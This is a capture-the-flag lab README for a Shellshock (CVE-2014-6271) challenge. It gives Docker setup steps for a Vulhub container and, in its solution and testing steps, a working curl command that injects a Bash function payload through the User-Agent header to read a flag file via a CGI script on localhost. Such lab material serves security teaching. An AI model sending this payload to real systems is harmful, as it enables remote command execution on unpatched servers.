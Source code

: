 # Challenge 8: Shellshock

## How to Start
```bash
docker compose pull
docker compose up -d
```

---

## Description
This challenge demonstrates how to exploit the **Shellshock vulnerability (CVE-2014-6271)** in a CGI script to achieve **Remote Code Execution (RCE)** and retrieve a flag.

---

## Solution
1. Identify the vulnerable `victim.cgi` file by exploring the container via the web application.
2. Execute the following command to read the flag:
   ```bash
   curl -H "User-Agent: () { :;}; echo; echo; /bin/cat /var/www/html/flag.txt" http://localhost:8066/victim.cgi
   ```

**Flag:**
```
FLAG{pwned_by_shellshock}
```

---

## How to Recreate

### 1. Clone the Vulhub Repository
```bash
git clone https://github.com/vulhub/vulhub
```

### 2. Navigate to the Shellshock CVE Directory
```bash
cd vulhub/bash/CVE-2014-6271
```

### 3. Start the Container
```bash
docker-compose up -d
```

### 4. Add the Flag
Place your flag in the desired directory within the container, for example:
```bash
echo "FLAG{pwned_by_shellshock}" > /var/www/html/flag.txt
```

### 5. Test the Exploit
Run:
```bash
curl -H "User-Agent: () { :;}; echo; echo; /bin/cat /var/www/html/flag.txt" http://localhost:8066/victim.cgi
```

---

## Final Notes
This challenge highlights the dangers of outdated Bash versions and improperly secured CGI scripts, which can be exploited to execute arbitrary commands on the server.
